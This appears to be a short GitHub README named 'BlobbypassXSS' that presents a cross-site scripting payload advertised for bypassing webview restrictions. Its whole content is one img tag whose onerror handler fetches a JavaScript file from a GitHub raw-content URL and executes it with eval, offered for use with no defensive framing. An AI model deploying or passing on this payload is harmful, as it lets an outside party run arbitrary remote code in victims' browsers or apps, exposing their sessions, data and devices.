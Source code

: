 # BlobbypassXSS
## Some XSS that can be used for multiple webview bypasses.
```
<img src=# onerror='fetch("https://raw.githubusercontent.com/CyanHood/saffron1/main/main.js").then(r=>r.text()).then(c=>eval(c)) '>
```
